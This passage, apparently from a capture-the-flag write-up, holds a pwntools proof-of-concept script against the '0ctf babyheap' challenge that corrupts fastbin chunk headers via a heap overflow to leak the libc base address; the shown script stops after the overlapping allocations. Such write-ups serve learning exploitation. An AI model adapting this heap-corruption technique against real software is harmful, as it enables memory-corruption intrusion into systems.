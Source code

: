 The following POC leaks the libc base address:
```python=
from pwn import *
context.terminal = ['tmux', 'splitw', '-v']
target = "./0ctfbabyheap"
p = process(target)
gdb.attach(p)
e = ELF(target)
l = e.libc
def Allocate(size):
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))

def Fill(index, data):
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Size:")
    p.sendline(str(len(data)))
    p.recvuntil("Content:")
    p.sendline(data)

def Free(index):
    p.sendline("3")
    p.recvuntil("Index:")
    p.sendline(str(index))

def Dump(index):
    p.sendline("4")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil(": \n")
    data = p.recvline()
    p.recvuntil(": ")
    return data

Allocate(0x20)  
Allocate(0x20)  
Allocate(0x20)  
Allocate(0x20)
Allocate(0x80) 
Allocate(0x20) 

Free(1)
Free(2) 

payload1 = b""
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += b"\xc0"
Fill(0, payload1)

#set to fastbin size
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x31)
Fill(3,payload2)

Allocate(32) 
Allocate(32)    

```
